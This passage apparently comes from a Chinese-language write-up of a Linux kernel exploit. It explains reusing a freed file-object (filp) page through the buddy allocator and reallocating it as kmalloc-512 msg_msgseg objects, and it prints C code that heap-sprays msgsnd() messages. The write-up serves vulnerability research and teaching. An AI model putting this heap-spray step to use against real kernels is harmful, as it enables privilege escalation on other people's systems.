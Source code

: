 [![](assets/1701612436-f8f8d61434b1bdcf8d4be5c8bd9e63c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230626154616-884166f4-13f5-1.png)

另一方面，如上所述，文件对象（大小为 384）和 kmalloc-512 对象（大小在 256 到 512 之间）位于阶数为 1 的分配块上，这意味着如果我们释放了**filp**页面，则在尝试重新分配时直接针对阶数为 1 的列表可能更容易，如果我们操纵伙伴分配算法以拆分更高订单块，则可以避开此限制（请参见附录），但是我们选择了**kmalloc-512**

## 重新分配为 msg\_msgseg，

现在我们进入了最后阶段，为了将页面重新分配给**kmalloc-512**，我们实际上将尝试使用`msg_msgseg`的内容覆盖文件，我们可以使用通常称为堆喷射（heap spraying）的方法来完成这个过程（也称为对`msgsnd()`进行垃圾邮件轰炸），还有其他喷射堆的方法 - 即使用密钥环、套接字消息或扩展属性，但**System V IPC API**是一种经过验证且易于使用的技术，  
在我们第一次查看攻击代码时，我们到了这里：

```plain
static inline err_t reallocate_filp_page(struct manager *mgr)
{
    IF_ERR_RET(spray_msg(mgr->msq_ids, TOTAL_MSGS, mgr->spray, MSG_SIZE))
    memset((char *)mgr->spray, 0x00, MSG_SIZE);
    return SUCC;
}

err_t spray_msg(uint64_t *store, uint32_t amount, char *data, uint64_t size)
{
    int32_t ret = 0;
    struct msgb* msg = (struct msgb*)data;

    for (uint32_t i = 0; i < amount; i++) {
        msg->mtype = i + 1;
        ret = msgsnd(store[i], msg, size, 0);
        IF_ERR(ret) {
            perror("spray_msg:msgsnd");
            return ERR;
        }
    }

    return SUCC;
}
```
